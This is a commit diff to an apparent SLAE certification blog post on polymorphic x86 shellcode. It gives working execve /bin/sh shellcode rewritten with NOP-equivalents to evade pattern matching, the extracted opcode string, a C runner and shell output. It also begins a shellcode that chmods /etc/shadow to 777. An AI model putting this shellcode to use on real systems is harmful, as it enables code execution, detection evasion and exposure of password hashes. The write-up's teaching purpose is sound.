

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-17-SLAE-Polymorphic.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-17-SLAE-Polymorphic.md

````diff
--- a/_posts/posts/2021-01-17-SLAE-Polymorphic.md
+++ b/_posts/posts/2021-01-17-SLAE-Polymorphic.md
@@ -17,6 +17,130 @@ Today we are going to dive a little deep within Polymorphic shellcode. However,
 
 The sixth assignment from the seven requires taking three [shellcodes](https://es.wikipedia.org/wiki/Shellcode) from [shell-storm.org](http://shell-storm.org/) and generate polymorphic versions of such. In addition, its size should not be bigger than 50%.
 
+#### Execve Shellcode (Shellcode #1)
+
+The first shellcode from the three will be one that executes ```/bin/sh``` through the ```execve``` syscall. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-827.php).
+
+###### Original code
+
+```term
+xor    eax,eax
+push   eax
+push   0x68732f2f
+push   0x6e69622f
+mov    ebx,esp
+push   eax
+push   ebx
+mov    ecx,esp
+mov    al,0xb
+int    0x80
+```
+
+There are infinite ways to modify such shellcode. For instance, "NOP equivalents" could be used, which add no functionality whatsoever and difficult pattern matching.
+Furthermore, the value ```/bin/sh``` that is pushed within the instructions ```push   0x68732f2f``` and ```push   0x6e69622f``` could be reduced by 1 and then incremented while
+being saved on a specific registers instead of directly the stack.
+
+###### Final code:
+
+```term
+global _start
+
+_start:
+
+       sahf                      ; Should store instructions. However, it is used as a NOP equivalent.
+
+       xor    eax,eax            ; Zeroes out EAX.
+       pushad                    ; Should save the current flags. However, it is used as a NOP equivalent.
+       push   eax                ; Pushes the dword of EAX (0x00000000).
+
+       cld                       ; Should clear the direction flag. However, it is used as a NOP equivalent.
+       mov esi, 0x68732f2e       ; Saves value "hs/.". If incremented by 1, it should possess value "hs//".
+       inc esi                   ; Increments ESI.
+       cdq                       ; Zeroes out EDX. Also a NOP Equivalent.
+       mov edi, 0x6e69622e       ; Saves value "nib.". If incremented by 1, it should possess value "bin/".
+       inc edi                   ; Increments EDI.
+
+       push esi                  ; Pushes the value of ESI ("hs//").
+       std                       ; NOP Equivalent.
+       push edi                  ; Pushes the value of EDI ("bin/").
+
+       mov ebx, esp              ; Saves the value of ESP in EBX.
+       cld                       ; NOP Equivalent.
+       cmc                       ; NOP Equivalent.
+
+       mov al, 11                ; Calls execve.
+       int 0x80                  ; Calls to kernel.
+```
+
+Let's obtain the dump the shellcode and test it!
+
+```term
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# nasm -f elf32 1.asm -o 1.o && ld 1.o -o 1
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# objdump -d ./1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
+"\x9e\x31\xc0\x60\x50\xfc\xbe\x2e\x2f\x73\x68\x46\x99\xbf\x2e\x62\x69\x6e\x47\x56\xfd\x57\x89\xe3\xfc\xf5\xb0\x0b\xcd\x80"
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode#
+```
+
+```term
+#include<stdio.h>
+#include<string.h>
+
+unsigned char code[] = \
+"\x9e\x31\xc0\x60\x50\xfc\xbe\x2e\x2f\x73\x68\x46\x99\xbf\x2e\x62\x69\x6e\x47\x56\xfd\x57\x89\xe3\xfc\xf5\xb0\x0b\xcd\x80";
+
+main()
+{
+
+  printf("Shellcode Length:  %d\n", strlen(code));
+
+        int (*ret)() = (int(*)())code;
+
+        ret();
+
+}
+```
+
+#### EndGame #1
+
+```term
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# gcc polymorphic.c -o polymorphic -fno-stack-protector -z execstack -w
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/1_shellcode# ./polymorphic
+Shellcode Length:  30
+#
+```
+
+Original Size: 23 bytes
+Final Size: 30 bytes
+
+Increment: 31%
+
+#### Chmod Shellcode (Shellcode #2)
+
+The second shellcode from the three will be one that performs a ```chmod``` operation on the file ```/etc/shadow``` with privileges ```777```. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-590.php).
+
+###### Original code:
+
+```term
+xor    eax,eax
+push   eax
+mov    al,0xf
+push   0x776f6461
+push   0x68732f63
+push   0x74652f2f
+mov    ebx,esp
+xor    ecx,ecx
+mov    cx,0x1ff
+int    0x80
+inc    eax
+int    0x80
+```
+
+There aren't many things that we can do. Nonetheless, we can apply similar techniques as we did on the previous shellcode:
+
+```term
+
+```
+
 ### Code
 
 This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
````
